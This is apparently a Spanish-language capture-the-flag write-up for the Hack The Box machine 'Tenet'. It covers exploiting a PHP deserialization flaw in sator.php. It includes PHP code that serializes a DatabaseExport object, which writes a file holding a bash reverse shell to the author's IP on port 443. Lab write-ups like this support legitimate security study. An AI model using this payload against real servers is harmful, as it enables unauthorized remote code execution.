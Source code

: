 Lo que hace este archivo en php es deserializar un contenido que es envido por **GET** a **aerpo** y el contenido serializado se enviá a la clase **DatabaseExport** ya deserializado lo que hace la clase es actualizar un archivo users.txt que es el nombre que viene ya predefinido y el campo data que esta en blanco por defecto todo esto es gracias a la función **update_db()** actualiza la data de **users.txt** a **Success** y luego con la clase **__destruct()** elimina el **users.txt** antiguo.

Si entramos a la ruta del archivo en la url vemos que existe:

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/users.png?raw=true">
</p>

Encontré un post el cual explica a detalle como funciona una [**Exploiting PHP Deserialization**](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) ahí hacen mención a como explotar esto para poder conseguir un **RCE**.


Con lo visto en la web arme el siguiente estructura en php para poder crear un archivo php el cual contenga una **revershell**

```php
class DatabaseExport{
	public $user_file = 'winsad.php';
        public $data = '<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/10.10.15.125/443 0>&1\'"); ?>';
}

print urlencode(serialize(new DatabaseExport));
```

Lo que hace es crear la clases **DatabaseExport** la cual contiene los mismo valores que requiere el archivo **sator.php** y serializarlos para que al momento que **sator.php** los reciba por GET pueda deserializarlo y actualizar la supuesta base de datos pero en este caso el contenido es la creación de un nuevo archivo php con la revershell que punta a mi equipo.
Una vez que serializo la clase del php con **php -a** la data que imprime ya serializada la mando al recurso **sator.php** y le paso por get a la variable **aerpo** la clase serializada:

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/intrusion/seria.png?raw=true">
</p>

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/intrusion/get.png?raw=true">
</p>

Como sale en la pagina **[]Database updated** intuyo que todo salio correcto así que en teoría si me dirijo a la ruta **http://sator.tenet.htb/winsad.php** el contenido que tiene este archivo php se interpretara dándome la shell. Para esto yo ya estaba en mi maquina en escucha por el puerto 443 que es el puerto que especifique en el php y yendo a la url se ve que efectivamente se interpreta el php y me da la conexión y con ella la shell.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/intrusion/load.png?raw=true">
</p>
